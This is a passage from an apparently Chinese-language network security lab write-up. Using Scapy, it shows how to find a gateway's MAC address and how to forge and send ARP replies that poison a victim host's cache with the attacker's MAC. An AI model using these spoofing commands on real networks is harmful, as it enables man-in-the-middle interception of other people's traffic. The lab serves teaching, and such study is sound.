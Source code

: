 2. 发送 ARP 请求

```bash
recved = srp(arpbroadcast, timeout=2)
```

![sendArp1](assets/imgs/sendArp1.png)

3. 查看网关 MAC 地址

```bash
gw_mac = recved[0][0][1].hwsrc
gw_mac
```

![gwMac](assets/imgs/gwMac.png)

#### 伪造网关的 ARP 响应包

1. 发送给受害者主机 192.168.0.102,ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
    
```bash
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.102", hwdst="08:00:27:ef:48:19")

arpspoofed.show()
```

![arp2](assets/imgs/arp2.png)

2. 发送 ARP 响应包

```bash
sendp(arpspoofed)
```
